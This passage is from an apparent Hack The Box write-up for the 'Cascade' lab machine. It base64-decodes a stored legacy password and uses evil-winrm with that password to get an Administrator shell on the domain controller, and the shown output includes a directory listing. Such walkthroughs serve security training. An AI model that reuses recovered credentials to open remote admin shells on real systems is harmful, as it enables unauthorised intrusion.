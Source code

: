 I got this `cascadeLegacyPwd`   : `YmFDVDNyMWFOMDBkbGVz` so lets decode this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```
{: .nolineno}

I guess this user TempAdmin may be related to Administrator so I tried netexec to check for it→

![Untitled](Cascade%20eb79c61327ed40c3971b238e89a67616/Untitled%2010.png)

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles           
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is CF98-2F06
C:.
|   wds_current_setup.exe
|
+---Contacts
+---Desktop
|       root.txt
|
+---Documents
+---Downloads
+---Favorites
|   +---Links
|   |       Suggested Sites.url
|   |       Web Slice Gallery.url
|   |
|   +---Microsoft Websites
|   |       IE Add-on site.url
|   |       IE site on Microsoft.com.url
|   |       Microsoft At Home.url
|   |       Microsoft At Work.url
|   |       Microsoft Store.url
|   |
|   +---MSN Websites
|   |       MSN Autos.url
|   |       MSN Entertainment.url
|   |       MSN Money.url
|   |       MSN Sports.url
|   |       MSN.url
|   |       MSNBC News.url
|   |
|   \---Windows Live
|           Get Windows Live.url
|           Windows Live Gallery.url
|           Windows Live Mail.url
|           Windows Live Spaces.url
|
```